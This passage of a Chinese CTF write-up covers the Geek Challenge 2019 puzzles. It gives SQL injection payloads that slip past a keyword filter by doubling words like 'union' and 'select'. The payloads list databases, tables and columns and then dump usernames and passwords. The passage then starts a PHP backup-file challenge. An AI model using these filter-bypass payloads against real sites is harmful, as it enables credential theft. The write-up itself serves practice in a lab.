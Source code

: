 ![image-20230420161503565](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420161503565.png)

查字段数

```php
admin' oorrder bbyy 3 # //无报错
admin' oorrder bbyy 4 # //报错了
```

联合查询吧

```php
1' ununionion selselectect 1,2,3 #
```

看数据库

```
1' ununionion selselectect 1,database(),3 #
```

看表名

```php
1' ununionion seselectlect 1,database(),group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='geek'#
```

![image-20230420162538553](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420162538553.png)

看字段

```
1' ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_name='b4bsql'#
```

![image-20230420162737699](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420162737699.png)

看数据

```
1' ununionion selselectect 1,database(),group_concat(id,username,passwoorrd) frfromom  b4bsql#
```

![image-20230420162823139](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420162823139.png)

## [极客大挑战 2019]PHP

他说他有一个备份的好习惯，看看www.zip和www.rar等

www.zip有东西

![image-20230420163114051](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420163114051.png)

查看了class.php，index.php

![image-20230420163856548](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20230420163856548.png)
